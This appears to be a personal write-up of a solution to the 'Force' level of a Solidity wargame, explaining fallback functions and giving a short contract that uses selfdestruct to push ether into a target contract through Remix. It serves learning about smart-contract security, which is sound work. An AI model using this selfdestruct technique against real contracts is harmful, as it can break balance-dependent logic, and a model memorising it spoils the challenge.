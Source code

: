 # Force

I was confused with what to do. So I googled "fallback receive solidity" and found this(https://blog.soliditylang.org/2020/03/26/fallback-receive-split/)

> In versions of Solidity before 0.6.x, developers typically used the fallback function to handle logic in two scenarios:

    * contract received ether and no data
    * contract received data but no function matched the function called

We want to do the first thing, make the "Force" contract receive ether without any data. 

After more googling I found the video with proper explanation: https://www.youtube.com/watch?v=cODYglsn3bs

## Solution

The contract that I used was:

```js
contract forceEther {

    constructor () public payable {
    	// I had to put this so we can send some money to this contract
    }
    function attack(address payable target) public payable {
        selfdestruct(target);
    }
}
```

I used remix to run this contract and then sent the "instance address" to the **forceEther** contract. Remember to send some ether while deploying the "forceEther" contract. 